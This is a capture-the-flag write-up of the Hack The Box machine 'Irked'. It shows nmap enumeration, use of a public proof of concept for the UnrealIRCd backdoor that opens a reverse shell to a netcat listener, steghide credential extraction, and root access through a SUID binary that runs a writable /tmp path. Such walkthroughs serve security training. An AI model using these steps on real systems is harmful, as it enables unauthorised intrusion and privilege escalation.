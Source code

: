 # Irked	

Machine Level: Easy <br />
OS: Linux

## Scanning 
I ran an aggressive NMAP scan to find the services and ports that were open. 
```
ajread@aj-ubuntu:~$ nmap -A [REMOTE IP] -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-11 19:41 EST
Nmap scan report for [REMOTE IP]
Host is up (0.015s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46610/udp   status
|   100024  1          52443/tcp   status
|   100024  1          53455/tcp6  status
|_  100024  1          57796/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.66 seconds
```
I also ran a full nmap scan to see if I missed any open ports. 
```
ajread@aj-ubuntu:~$ nmap -p- [REMOTE IP] -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-11 19:42 EST
Nmap scan report for [REMOTE IP]
Host is up (0.024s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
52443/tcp open  unknown
65534/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 49.36 seconds
```
## Enumeration 
I noticed that port 6697 was running ircs-u. I wanted to confirm which version of IRC was running since I knew there was an exploit that I could throw. 
```
ajread@aj-ubuntu:~$ nmap -p6697 -sV -sC [REMOTE IP] -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-11 19:52 EST
Nmap scan report for [REMOTE IP]
Host is up (0.013s latency).

PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.82 seconds
```
I didnt get much information but I was able to run the unrealirc backdoor nmap script. 
```
ajread@aj-ubuntu:~$ nmap -sV -p6697 --script=irc-unrealircd-backdoor [REMOTE IP] -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-11 19:56 EST
Nmap scan report for [REMOTE IP]
Host is up (0.013s latency).

PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Service Info: Host: irked.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.43 seconds
```
## Initial Access
There was a metasploit module with unreal_ircd_3281_backdoor that can run commands. However, I wanted to use [this](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor) POC written in Python to understand the backdoor better. I sent the exploit with the correct commands. 
```
ajread@aj-ubuntu:~/hackthebox/playground$ python3 exploit.py [REMOTE IP] 6697 -payload python
Exploit sent successfully!
```
I started a netcat listener and was dropped into a shell. 
```
ajread@aj-ubuntu:~$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [REMOTE IP] 33553
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
```
I wasnt able to read the user.txt file with my permissions. 
```
ircd@irked:/home/djmardov$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
However, there was a ```.backup``` file with an interesting steg file comment about a ```pw``` or password. 
```
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
[REDACTED]
```
I navigated to the website on port 80 and noticed that there is a jpeg that could be related to the stego. I downloaded the jpeg and extracted the contents using the ```pw```. 
```
ajread@aj-ubuntu:~/hackthebox/playground$ steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".
```
I was able to ssh into the machine using the extracted ```pass.txt``` from the jpeg. And I was able to find the user flag.
```
djmardov@irked:~$ wc -c user.txt 
33 user.txt
```
## Privilege Escalation 
I looked for binaries that could be used for privilege escalation. 
```
djmardov@irked:~$ find /usr -perm -4000
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
```
It looked like ```/usr/bin/viewuser``` is owned by root and can be run as root. I ran the command and it appeared to call a tmp file named ```listusers```. 
```
djmardov@irked:~$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-02-11 19:40 (:0)
djmardov pts/1        2023-02-11 20:13 ([LOCAL IP])
sh: 1: /tmp/listusers: not found
```
I created a fake list with only a shell.
```
djmardov@irked:~$ cat /tmp/listusers 
/bin/sh
```
I then made the file an executable to run. 
```
djmardov@irked:~$ chmod +x /tmp/listusers 
```
And then I ran ```viewuser``` and I was dropped into a privileged shell. 
```
djmardov@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-02-11 19:40 (:0)
djmardov pts/1        2023-02-11 20:13 ([LOCAL IP])
# whoami
root
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```
I was able to read the root flag! 
```
# wc -c /root/root.txt
33 /root/root.txt
```